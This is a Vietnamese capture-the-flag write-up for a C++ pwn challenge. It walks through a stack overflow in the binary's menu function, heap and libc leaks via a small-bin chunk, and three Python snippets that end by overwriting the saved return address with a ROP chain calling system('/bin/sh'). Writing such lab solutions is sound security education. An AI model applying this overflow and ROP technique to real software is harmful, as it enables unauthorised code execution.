**1. Tìm bug**

 - 

 - 

 - `checksec` ta thấy `canary disable` 

 - Xem qua `main` bằng ida

 - 

 - 1 chall được viết bằng `c++` đây là lý do nó ít `solved` mặc dù là bug cơ bản

 - Sau khi tìm hiểu chương trình thì ta nên focus vào 3 hàm `menu`, `sub_476E` mình đã đổi tên nó thành `allocate_str` và `new_kana` 

 - 

 - Tại `menu` ta sẽ thấy ngay lỗi `overflow` khi mà `read` chỉ dừng với `\n`

 - 

 - Hàm `allocate_str` nó sẽ gán `string a1 = (a2 + 48)`, ta sẽ đặt `breakpoint` tại hàm này ở `menu` để xem 2 tham số của nó được đặt tại đâu trên `stack`

 - 

 - Tiếp đến hàm `new_kana` nó cho ta nhập vào `string a1+48`, đối với `main` thì `option` này sẽ nhập vào `string+48`

 - Ta sẽ debug qua để có một cái nhìn cụ thể

 - 

 - `new_kana` thực hiện `std::cin` vào địa chỉ `0x007fffffffe310` 

 - sau khi nhập ta có cấu trúc của `string chunk` như sau:

 -  

 - Sau khi quay lại `menu` hàm `allocate_str` sẽ gán `v11 = a + 48`

 - 

 - 

 - Sau khi `allocate_str` được gọi thì `v11` sẽ được setup để được in ra theo `size` của nó thông qua 2 hàm kế tiếp này.

 - Điều này dẫn đến 2 hướng khai thác để có thể leak các giá trị đó là thay đổi `ptr` hoặc `size`, tuy nhiên ta có thể thấy rằng ở `a1+48` là chứa `0x00555555574d50` nhưng sau khi gán vào `v11` thì `v11` lại chứa một `ptr` khác là `0x00555555576590` điều này là do việc cấp phát động theo `size` và thực hiện `copy` vào `chunk` mới vừa được cấp phát.

 - Do vậy ta chỉ nên thay đổi `chunk`, ban đầu thì ta cứ tìm cách leak `heap` ra, do việc control `ptr` là khá khó vì nó luôn thay đổi.

 - 

 - do `ptr` của `a1+48` nằm sau `saverip` nên ta sẽ `overflow` thay đổi giá trị `i` lúc này có thể `read` tùy ý trên `stack`

 - sau khi có được `heap` ta sẽ leak `libc` thông qua `chunk` này, một `chunk` trong `small_bins`

 - 

**2.Exploit**

 - ```python
   new_kana(b'a'*0x430)
   payload = b'a'*0x5c + p8(0xc0-1)
   choice(payload, b'')
   
   r.recvuntil(b': ')
   heap = r.recv(16)[8:16]
   heap = u64(heap)
   print(hex(heap))
   ```
   
 - Ta sẽ tạo 1 `string` lớn thông qua `new_kana` điều này có 2 lợi ích khi nó sẽ tạo ra một lượng lớn `size` và có một `chunk` sẽ xuất hiện trong `small_bins`

 - Đồng thời thay đổi giá trị `i` để nó `read` tới `a1+48`

 - 

 - 

 - Và giờ ta có thể leak đc `heap`
 - 
 - ```python
   newheap = heap + 0x6e0
   print(hex(newheap))
   choice(payload, p64(newheap))
   
   r.recvuntil(b': ')
   libc.address = u64(r.recv(8)) - libc_off
   print(hex(libc.address))
   ```
 - Tiếp theo ta sẽ ghi lại `ptr` thành `heap` của `small_bins` nơi chứa `libc` và thực hiện `leak libc`.
 - 
 - ```python
   ret = libc.address + pop_rdi_off + 1
   pop_rdi = libc.address + pop_rdi_off
   print(hex(ret))
   print(hex(pop_rdi))
   
   payload = b'a'*0x5c + p8(0x78-1)
   payload += flat(
       pop_rdi, next(libc.search(b'/bin/sh')),
       ret,
       libc.sym['system']
       )
   choice(payload)
   ```
 - Sau khi leak `libc` ta `overwrite saverip` thực thi `system("/bin/sh") để lấy shell
 - 

   